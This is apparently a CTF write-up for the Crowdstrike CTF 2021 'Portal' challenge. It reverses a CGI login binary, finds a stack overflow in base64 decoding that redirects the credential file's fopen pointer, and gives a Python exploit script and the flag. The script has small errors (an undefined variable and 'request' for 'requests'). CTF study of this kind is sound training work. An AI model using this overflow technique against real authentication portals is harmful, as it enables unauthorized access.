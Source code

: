 ```yaml
---
layout: post
title: Crowdstrike CTF 2021 - Portal
author: hugsy
tags: [Protective Penguin,pwn,re,elf64,]
date: 2021-01-29 19:43
---
```


* Competition: [Crowdstrike CTF](https://adversary.zone/challenges)
* Challenge Name: Portal
* Points: 1 pts
* Description:
> PROTECTIVE PENGUIN gained access to one of their victims through the victim's extranet authentication portals and we were asked to investigate.
> Please download the Portal Code and see whether you can reproduce their means of initial access vector. We stood up a test instance of the authentication portal for you to validate against.

The target for this challenge is located at https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi. By opening the Qemu image we can retrieve the ELF64 file: `cgi-bin/portal.cgi`. That "portal" is fairly basic, only asking for credentials.
<!--more-->

# Reversing the binary

The binary was quickly identified:



```bash
$ file cgi-bin/portal.cgi
cgi-bin/portal.cgi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aead4fc5b1de633c95bfc8076a8338c9f64c3125, for GNU/Linux 3.2.0, stripped
$ checksec cgi-bin/portal.cgi
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

First, we determined the logic of the binary: it is a ELF64 CGI that is spawned via `python3 -m http.server --cgi`. This has several implications: CGIs are forked and execv-ed so this rules out any kind of stack canary bruteforce (if any canary attack was needed), and also relying on static libc addresses. But the binary base itself will be static.

Moving on to reversing: the `main` function quickly shows that the binary gets the `user` and `pass` from the input formatted in JSON. Also it shows that if the `auth` function is successful (i.e. returns 0), the flag is simply given to us:

![img](https://i.imgur.com/XBOlhQe.png)

Here is the core of the `auth` function
![img](https://i.imgur.com/tjyzEAQ.png)

Its logic is:

1. Read HTTP POST `user` and `pass` as `application/json`
2. Both parameters must be base64 encoded
3. Read expected string from "creds.txt".
4. Do `strcmp("given:credz","fromfile:credz")`
5. If returns 0, it just dumps the flag

After spending some time thinking of using a timing attack for exploitation, we re-read the binary disassembly to spot a stack overflow when the `auth` uses `__b64_pton` on a static stack buffer when extracting the credentials. We fully control the content being extracted. So here we go!

# Exploitation

Trigger the stack overflow is not hard, only providing an input big enough would suffice. For example this code:

```python
s = requests.Session()
u = b64(b"A"*372)
r = s.post("http://localhost:8000/cgi-bin/portal.cgi", json={"user": u, "pass": u})
print(r.text)
s.close()
```

would corrupt the stack, but also overwrite the canary triggering `__stack_chk_fail` and we don't like that much.
But looking closely at the stack layout, we realized something:

```
                     ^
|            |       |
--------------       |
|   pc       |       |
--------------       |
|  sfp       |       |
--------------       |
| canary     |       |
--------------       |
|  fname     |       |
--------------       |
|            |       |  stack direction
|            |       |
| controlled |       |
| buffer     |       |
|            |       |
|            |       |
```

We can control the value being passed to `fopen`! So we can use that argument to point to an address that will be `fopen` for comparison. By default, it obviously points to `creds.txt` (i.e. 0x402008). But if we could point it to a file we know that may contain `:` character, then we have all we need to pass the call to `strcmp`.

And one case struck out
```bash
$ strings cgi-bin/portal.cgi | rg /
/lib64/ld-linux-x86-64.so.2
```

Not quite sure if it was the intended solution, but it worked: we grepped`/lib64/ld-linux-x86-64.so.2` looking for `:` and we get some interesting stuff:

```bash
$ strings /lib64/ld-linux-x86-64.so.2 | rg ':'
[...]
FATAL: kernel too old
Unused direct dependencies:
        Version information:
        %s:
prelink checking: %s
wrong ELF class: ELFCLASS32
undefined symbol: %s%s%s
relocation processing: %s%s
calling init: %s
calling preinit: %s
[...]
```

We are free to pick any: so I picked `b"\tVersion information:"`. All is needed now is build the parameter with an `user` having the base64-encoded value of `b"\tVersion information"`, and `pass` with `\0` is enough.

```python
import os, sys, requests, time
from base64 import b64encode as b64
from pwn import *

TARGET="https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi"

def pwn():
    user_raw = b"\tVersion information"
    user = b64(user_raw)
    pwd_raw = b"\0"*(259-len(u_r))
    pwd = b64(pwd_raw + p64(0x4002a8) + b"A"*8) # 0x4002a8 is the address of /lib64/ld-linux-x86-64.so.2 in portal.cgi

    r = request.post(TARGET, json={"user": user, "pass": pwd})
    if len(r.text):
        print(r.text)
    return

if __name__ == "__main__":
    pwn()
```

And we get the flag printed out after a bunch of junk, showing `CS{w3b_vPn_h4xx}`.



